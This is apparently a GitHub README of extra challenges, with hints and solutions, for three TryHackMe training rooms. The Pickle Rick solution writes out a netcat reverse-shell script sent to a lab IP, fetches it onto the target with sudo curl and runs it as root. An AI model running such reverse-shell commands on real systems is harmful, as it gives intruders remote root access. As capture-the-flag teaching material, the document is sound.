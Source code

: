 # TryHackMe Extra Challenges

## Free Rooms Index
<a href="#LinuxFundamentals1">Linux Fundamentals 1</a><br>
<a href="#PickleRick">Pickle Rick</a><br>
<a href="#Wonderland">Wonderland</a><br>
<br>
## Subscriber Rooms Index
tbd<br>
<br>
### Free Rooms Extra Challenges
<h4 id="LinuxFundamentals1"><a href="https://tryhackme.com/room/linux1">Linux Fundamentals 1</a></h4>
Don't follow the directions for using the shiba1 binary, but find another way to discover shiba2's password.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
It's a simple reverse engineering task.

<details>
<summary>Hint 2</summary>
  
<a href="https://linux.die.net/man/1/strings">strings</a>

<details>
<summary>Solution</summary>

Doing <code class="language-plaintext highlighter-rouge">strings shiba1</code> and review shows it includes the line "cat /etc/shiba/shiba2".<br>
<code class="language-plaintext highlighter-rouge">ls -al /etc/shiba/shiba2</code> shows the file is:<br>
-rw-r--r-- 1 root root 9 Feb 13  2020 /etc/shiba/shiba2<br>
This is readable by any local user, so shiba1 can <code class="language-plaintext highlighter-rouge">cat /etc/shiba/shiba2</code> for the password.<br>
      
</details>
</details>
</details>

<br>
<h4 id="PickleRick"><a href="https://www.tryhackme.com/room/picklerick">Pickle Rick</a></h4>
When the web command portal is found, the clue encourages you to keep working with this access. There is another method that is easier.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Always check the permissions for your user.

<details>
<summary>Hint 2</summary>
  
A shell for the machine would remove limitations imposed on the web command portal.

<details>
<summary>Solution</summary>

It's possible to finish the Room quickly with the web command portal after checking the www-data user's <code class="language-plaintext highlighter-rouge">sudo -ll</code> and learning they have root access through sudo without a password. It's also possible to get a root shell by creating a local file called shell.sh as:<br>
#!/bin/bash<br>
mkfifo /tmp/lol<br>
nc 10.10.10.10 8008 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol<br>
<br>
Serve from local with <code class="language-plaintext highlighter-rouge">python3 -m http.server 8009</code> then pull it to the target through the web command portal with:<br>
<code class="language-plaintext highlighter-rouge">sudo curl http://10.10.10.10:8009/shell.sh -o /tmp/shell.sh</code><br>
 After the transfer, stop the local http.server and replace with a local listener to catch the shell using <code class="language-plaintext highlighter-rouge">nc -nlvp 8008</code>.<br>
Finish by using the web command portal to modify the file as <code class="language-plaintext highlighter-rouge">sudo chmod +x /tmp/shell.sh</code> and then execute with <code class="language-plaintext highlighter-rouge">sudo /tmp/shell.sh</code> to connect.<br>
 
</details>
</details>
</details>

<br>
<h4 id="Wonderland"><a href="https://tryhackme.com/room/wonderland">Wonderland</a></h4>
The Room is meant to be finished by rooting the box, though both flags can be found with a different method.<br>
<details>
<summary>Hint 1 (<i>click to expand</i>)</summary>
  
Check the flag formats/masks and the Room tags. Tags are sometimes easier to see by doing a <a href="https://tryhackme.com/hacktivities?tab=search">search</a> for the Room name and looking at the preview in results.

<details>
<summary>Hint 2</summary>
  
It is not necessary to Deploy the machine.

<details>
<summary>Solution</summary>

The flag formats for Wonderland are very unusual for TryHackMe: they look like sentences or at least some kind of text. If you search Project Gutenberg, you can find a text-only format of Alice in Wonderland to copy local with:<br>
<code>wget http://www.gutenberg.org/files/11/11-0.txt</code><br>
Now we have the full text and <a href="https://www.gnu.org/software/grep/manual/grep.html#Introduction">grep</a> to search it.<br>
user.txt:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{10}[[:blank:]][[:graph:]]{3}[[:blank:]][[:graph:]]{11}' 11-0.txt</code><br>
<br>
root.txt is a little tricker by this method. Formatting the whole grep expression is an effort, but even with that dilligence it fails. However, that also requires learning how to add in checks for the commas, or include the counts in the "graph" portions. Those commas look helpful.<br>
Attempting only a search for the first portion:<br>
<code class="language-plaintext highlighter-rouge">grep -sw -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns a single match, but on a line alone. Adding in the argument to get this line number from the text:<br>
<code class="language-plaintext highlighter-rouge">grep -swn -E '[[:graph:]]{7}[,][[:blank:]][[:graph:]]{7}[,][[:blank:]][[:graph:]]{6}' 11-0.txt</code><br>
returns 1737 for the line number. Using the <a href="https://linux.die.net/man/1/sed">sed</a> command to see what is happening in this area of the text:<br>
<code class="language-plaintext highlighter-rouge">sed '1732,1742!d' 11-0.txt</code><br>
reveals the two lines, separated from everything else, that can be entered to complete the flag.<br>
      
</details>
</details>
</details>

<br>
### Subscriber Rooms Extra Challenges
tbd<br>
<br>
